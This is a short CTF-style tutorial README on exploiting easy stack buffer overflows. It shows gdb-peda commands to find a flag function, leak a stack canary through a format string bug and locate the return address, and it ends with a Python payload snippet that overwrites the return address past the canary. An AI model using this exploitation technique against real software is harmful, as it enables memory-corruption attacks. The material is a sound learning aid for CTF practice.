 # Easy Buffer Overflow 
_Just some tips to remeber how to resolve easy buffer overflows_

## Tips 📝
**1.  Check the typical "win" or "flag" function on the binary with gdb (it's recommended to have [PEDA](https://github.com/longld/peda) installed to see registers and the program instructions in a prettier way).**

To open the binary with gdb:
```
gdb binary
```
To see the differents functions on the binary: 
```
gdb-peda$ info functions
```
![Functions Addresses](images/functions.png)


**2. Get "flag" function memory address**: 
```
gdb-peda$ info functions flag 
```

![Function Address](images/function_address.png)


**3. Finding the canary to prepare the payload**:

First we should puts a breakpoint on the "vulnerable" method (for example gets or fgets)

```
gdb-peda$ disas main
```
![Gets address](images/gets_address.png)

```
gdb-peda$ b *0x000000000040093b ("gets" memory address)
```

Run the binary with gdb until reaching the breakpoint

```
gdb-peda$ run
```
Execute the next instruction of the program (it will call the "gets" where we have put the breakpoint and ask for an input, in this case we are going to write some 'A'):
```
gdb-peda$ ni
AAAAAAAAAAAAA
```
Then we have to look at the rsp register to see where our input has been stored ('A' in ASCII is 41): 
```
gdb-peda$ x/20gx $rsp
```
![RSP values](images/rsp_values.png)

If we look closer we can see the value "0x6f54534ae2410d00", this "strange" value which is different from the others on the stack is the canary (8 bytes, the length of the word, that changes in every program execution), so we have to do the buffer overflow writing the exact same value on this position. 

As the canary changes in each execution we have to print it with a format string vulnerability in order to add it to the payload (in the "canary" binary we can make a format string vulnerability in the line "printf(strcat(name, "!\n"));"). To print it we should use some %p to see in which position the canary is printed, in this case is the position 17 (it is recommended to see some format strings [videos](https://www.youtube.com/watch?v=0WvrSfcdq1I)):

![RSP values](images/format_string.png)

Now, we have the canary value which will be added to our payload. The next step is to overwrite the return address of the function in order to redirect the program to the "flag" function and get our flag. 


**4. Getting the return address of the function**

To get the return address of the function we have to put a breakpoint on the "ret" instruction:
```
gdb-peda$ breakpoint *0x400956
```
When the execution reachs the breakpoint we have to see the first position of the stack where is the returing address of the program is: 
```
gdb-peda$ x/gx $rsp
```
![RSP values](images/return_address.png)

Finally to expltoit the second "gets" with the bufferoverflow we check how many bytes we have to write until the canary and then until the return address where we will put the flag return address obtained on the first step of this guide:

![RSP values](images/to_overwrite.png)

So the payload will be: 56 chars until reach the canary, the canary obtained, 8 chars more and the flag function address (If you got a segfault in the movaps XMMWORD PTR [rsp+0x40],xmm0 instruction you have to align the stack jumping to other ret instruction and then set the target address as you can see in the solution.py script)

```
payload = 'A'*56
payload += p64(int(canary, 16))
payload += 'A'*8
payload += p64(MAIN_RET)
payload += p64(FLAG_ADDRESS)
```


